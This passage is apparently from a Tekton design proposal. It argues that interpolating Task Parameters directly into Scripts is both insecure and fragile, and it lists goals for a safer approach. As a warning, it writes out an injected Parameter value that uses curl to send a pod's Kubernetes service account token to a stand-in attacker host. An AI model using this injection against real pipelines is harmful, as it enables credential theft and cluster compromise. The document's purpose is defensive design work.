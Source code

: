 As warned in the [recommendations][catalog-recommendation], an attacker can access the
service account token for the `TaskRun` using `Parameter` *bar* as `$(curl -s
http://attacker.example.com/?value=$(cat/var/run/secrets/kubernetes.io/serviceaccount/token))`.

### Reliability

The interpolation of `Parameters` in `Script` is not aware of context - it is a simple string
replacement. As such, it is easy for a `Task` _User_ to accidentally pass in a `Parameter`
with a character that would make the `Script` invalid and fail the `Task`, making the
`Task` extremely fragile. Characters that can invalidate the `Script` include a space,
a quote sign, and a newline. An example with a quote sign is demonstrated below.
For further details, read the warning in the [recommendations][catalog-recommendation].

##### Example

A `Task` with a `Step` *foo* interpolates `Parameter` *bar* in its `Script`, as such:

```yaml
  steps:
  - name: foo
    image: myimage
    script: |
      echo $(params.bar)
```

A user can pass in `Parameter` *bar* with a single quote. The `Task` would fail because of
the unterminated quote string, instead of echoing the quote string.

### Goals

1. **`Tasks` should safely and reliably access `Parameter` variables from `Scripts`**.

   Replace direct interpolation with an alternative that does not put the `Parameter`
   into an executable context by default.

2. `Tasks` in the *Tekton Catalog* should be bumped to use the safer approach.
    - Given that this update would likely be backwards-incompatible, as it was in the
    [`git-clone` Task update in the Catalog][catalog-pr-711], the versions of those
    `Tasks` have to be bumped with this update, and their previous versions' docs 
     updated to warn about the issue.
    - Catalog `Tasks` that leverage this pattern to intentionally inject executable code
    (e.g. the `git-cli` Task [accepts a script to run as a param][git-cli]) can be updated
    to execute the contents of the `Parameter` from a file or call `eval` on it explicitly.

3. Tekton Pipelines and Catalog documentation should be updated to the new approach.

4. **`Tasks` should not support implicit runtime code injection**.

   Disallow interpolating `Param` values directly into executable
   contexts. If the user wants to execute the contents of a param as a
   script then they should be able to, but it shouldn't be possible
   without "opting in" to that behaviour by calling `eval` or writing
   the value of a param to a script and running it.

### Use Case


[catalog-recommendation]: https://github.com/tektoncd/catalog/blob/main/recommendations.md#dont-use-interpolation-in-scripts-or-string-arguments
[git-cli]: https://github.com/tektoncd/catalog/blob/4f365ec668973abe3c2df87323b3b7e4bd4a614a/task/git-cli/0.3/git-cli.yaml#L137
[catalog-pr-711]: https://github.com/tektoncd/catalog/pull/711
[plumbing-pr-973]: https://github.com/tektoncd/plumbing/pull/973
[plumbing-pr-974]: https://github.com/tektoncd/plumbing/pull/974
[plumbing-pr-975]: https://github.com/tektoncd/plumbing/pull/975
[plumbing-pr-976]: https://github.com/tektoncd/plumbing/pull/976
[plumbing-pr-977]: https://github.com/tektoncd/plumbing/pull/977
[secure-by-default]: https://en.wikipedia.org/wiki/Secure_by_default
[params-vars-docs]: https://github.com/tektoncd/pipeline/blob/main/docs/tasks.md#substituting-parameters-and-resources
[tep-0086-alt]: https://github.com/tektoncd/community/pull/521/files#diff-6057e05e8be034edde14ed71128372a35468e25c3f6c9809be8cc8a1e78ada94R287
[tep-0086-prop]: https://github.com/tektoncd/community/pull/521/files#diff-6057e05e8be034edde14ed71128372a35468e25c3f6c9809be8cc8a1e78ada94R275
[pipeline-issue-781]: https://github.com/tektoncd/pipeline/issues/781
[tep-0017]: https://github.com/tektoncd/community/pull/208
[tep-0023]: https://github.com/tektoncd/community/blob/main/teps/0023-implicit-mapping.md
[triggers-issue-675]: https://github.com/tektoncd/triggers/issues/675
[pipeline-issue-3226]: https://github.com/tektoncd/pipeline/issues/3226
[templating-doc]: https://docs.google.com/document/d/1h_3vSApIsuiwGkrqSiegi4NVaYG4oVzBquGAhIN6qGM/edit?usp=sharing
